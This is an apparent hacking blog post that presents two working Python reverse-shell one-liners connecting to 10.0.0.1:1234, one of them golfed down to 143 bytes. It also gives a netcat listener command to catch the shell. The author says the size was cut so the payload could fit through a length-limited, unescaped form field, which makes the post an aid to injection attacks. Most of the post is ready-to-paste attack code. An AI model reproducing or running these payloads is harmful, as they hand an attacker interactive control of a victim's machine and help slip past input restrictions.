 ```yaml
---
layout: post
title:  "Compact Python Reverse Shell"
subtitle: "Making a compact python reverse shell, even more compact!"
categories: python hacking
published: true
comments: true
tags:
 - Python
 - Hacking
---
```


Inspired by an other python reverse shell found online.

The original version (224 bytes)

{% highlight python linenos %}
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}

The much smaller new version (143 bytes)

{% highlight python linenos %}
	python -c'import socket,os;s=socket.socket();s.connect(("10.0.0.1",1234));h=s.fileno();d=os.dup2;d(h,0);d(h,1);d(h,2);os.execl("/bin/sh","-i")'
{% endhighlight %}

To receive the reverse shell a simple nc works great.

{% highlight bash linenos %}
	nc -l -v -p 1234
{% endhighlight %}

All very simple, some work was done to reduce the size of it to help get it past a unescaped form that had a size limit.

